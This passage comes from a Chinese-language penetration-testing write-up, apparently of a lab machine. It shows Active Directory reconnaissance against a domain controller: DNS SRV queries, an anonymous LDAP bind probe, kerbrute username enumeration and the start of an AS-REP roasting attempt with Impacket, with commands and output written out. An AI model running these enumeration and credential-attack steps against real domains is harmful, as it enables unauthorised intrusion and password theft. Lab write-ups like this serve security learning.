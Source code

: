 在确认目标为域控后，我们针对其核心服务进行更具针对性的信息收集。

*   **DNS SRV 记录查询**
    通过 `dig` 查询 SRV 记录，可以精确地确认提供关键服务的服务器主机名。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ dig @192.168.205.149 -t SRV _kerberos._tcp.bicker.com
    ...
    ;; ANSWER SECTION:
    _kerberos._tcp.bicker.com. 600  IN      SRV     0 100 88 dc.bicker.com.
    ...
    ```
    查询结果进一步证实了 Kerberos (KDC), LDAP, 和全局编录 (GC) 服务均由 `dc.bicker.com` (`192.168.205.149`) 提供。

*   **LDAP 匿名绑定探测**
    尝试在未提供任何凭据的情况下查询 LDAP，探测是否存在允许匿名枚举的常见配置错误。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ ldapsearch -x -H ldap://192.168.205.149 -b "DC=bicker,DC=com"
    # extended LDIF
    ...
    # search result
    search: 2
    result: 1 Operations error
    text: 000004DC: LdapErr: DSID-0C090A58, comment: In order to perform this opera
     tion a successful bind must be completed on the connection., data 0, v4f7c
    
    # numResponses: 1
    ```
    服务器拒绝了匿名查询，表明其 LDAP 服务进行了基本的安全加固。

*   **Kerberos 用户名枚举**
    利用 Kerberos 协议在处理用户存在与否时返回不同错误代码的特性，可以使用 `kerbrute` 等工具高效地验证用户名列表。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ kerbrute userenum --dc 192.168.205.149 -d bicker.com /usr/share/seclists/Usernames/cirt-default-usernames.txt 
    ...
    2025/08/16 09:46:41 >  [+] VALID USERNAME:       ADMINISTRATOR@bicker.com
    2025/08/16 09:46:41 >  [+] VALID USERNAME:       Administrator@bicker.com
    2025/08/16 09:46:41 >  [+] VALID USERNAME:       Guest@bicker.com
    ...
    ```
    该步骤成功验证了 `administrator`, `guest` 等多个内置账户的存在，为后续的凭据攻击提供了目标。

*   **AS-REP Roasting 攻击尝试**
    这是一种针对禁用了 Kerberos 预身份验证的用户的攻击。如果存在此类用户，攻击者可以为其请求 TGT，并离线爆破其中包含的加密数据以获取用户密码。
    ```bash
    ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
    └─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py bicker.com/ -usersfile user -format hashcat -outputfile hash
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
    